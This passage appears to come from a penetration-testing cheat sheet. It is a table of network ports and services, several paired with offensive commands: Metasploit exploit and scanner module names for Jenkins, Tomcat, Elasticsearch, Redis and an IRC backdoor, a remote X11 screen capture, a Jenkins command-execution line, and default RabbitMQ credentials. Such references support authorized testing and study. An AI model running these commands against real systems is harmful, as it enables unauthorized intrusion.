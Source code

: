 |5985|tcp|winrm|msf >use exploit/windows/winrm/winrm_script_exec<BR>msf >use auxiliary/scanner/winrm/winrm_auth_methods<BR>msf >use auxiliary/scanner/winrm/winrm_cmd<BR>msf >use auxiliary/scanner/winrm/winrm_login<BR>msf >use auxiliary/scanner/winrm/winrm_wql|
|6000|tcp|x11|xwd -root -screen -slient -display 192.168.1.108:0 > out.xwd<BR>convert out.xwd out.png|
|6379|tcp|redis|redis-cli -h 127.0.0.1 -p 6379<BR>msf >use auxiliary/scanner/redis/file_upload<BR>msf >use auxiliary/scanner/redis/redis_login<BR>use auxiliary/scanner/redis/redis_server|
|6380|tcp|redis||
|6082|tcp|varnish||
|6667|tcp|ircd backdoor|msf > use exploit/unix/irc/unreal_ircd_3281_backdoor|
|6881||BitTorrent||
|6969||TFTP,BitTorrent||
|7001|tcp|weblogic||
|8080|tcp|jekins|Jekins Console<BR>println "cmd.exe /c dir".execute().text<BR><BR>msf >use auxiliary/scanner/http/jenkins_enum<BR>msf >use exploit/multi/http/jenkins_script_console|
|8083|tcp|vestacp||
|8089|tcp|jboss||
|8101|tcp|apache karaf||
|8180|tcp|apache tomcat|msf > use exploit/multi/http/tomcat_mgr_deploy|
|8443|tcp|https||
|8554|tcp|rtsp||
|8649|tcp|ganglia||
|9009|tcp|Julia||
|9151|tcp|Tor Control||
|9160||Apache Cassandra||
|9200|tcp|elasticsearch|msf >use exploit/multi/elasticsearch/search_groovy_script|
|9418|tcp|git||
|10000|tcp|virtualmin/webmin||
|11211|tcp|memcache|msf > use auxiliary/gather/memcached_extractor<br>$ nc x.x.x.x 11211<BR>stats\r\n|
|13579||Media Player classic web interface||
|15672|tcp|rabbitmq|http login - guest/guest|
|17185||VxWorks WDBRPC||
|18083|tcp|vbox server||
|27017|tcp|mongodb|msf >use auxiliary/scanner/mongodb/mongodb_login<BR>$ mongo host:port/database<BR>MongoDB shell version: 2.6.12<BR>> help|
|28017|tcp|mongodb||
|37777||Dahua DVR||
|44818||EtherNet/IP||
|49153||WeMo Link||
|50000|tcp|sap||
|50030|tcp|hadoop||
|50070|tcp|hadoop||
|51106||Deluge(HTTP)||